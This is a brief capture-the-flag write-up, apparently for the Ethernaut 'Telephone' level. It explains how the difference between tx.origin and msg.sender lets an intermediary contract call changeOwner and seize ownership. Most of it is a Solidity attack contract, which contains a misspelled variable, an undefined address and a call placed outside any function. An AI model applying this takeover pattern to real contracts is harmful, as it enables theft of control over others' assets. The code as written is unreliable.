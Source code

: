 # Ethernaut Level 3 Telephone

this is phishing tx.origin attack
tx.origin remains same for whole the transaction call but msg.sender varies.
This level can be completed using another contract calling the original contract function.
this makes the 
tx.origin != msg.sender
so we can change the owner of the contract

# code
```solidity
interface ITelephone{
	function changeOwner(address _owner) external;
}
contract Attack{
	ITelephone  public telephone;
	constructor(address _teladdrss){
		telephone = ITelephone(_teladdress);
	}
	telephone.changeOwner(our_address);
}
//note: use metamask for tx.origin to exist in remix
```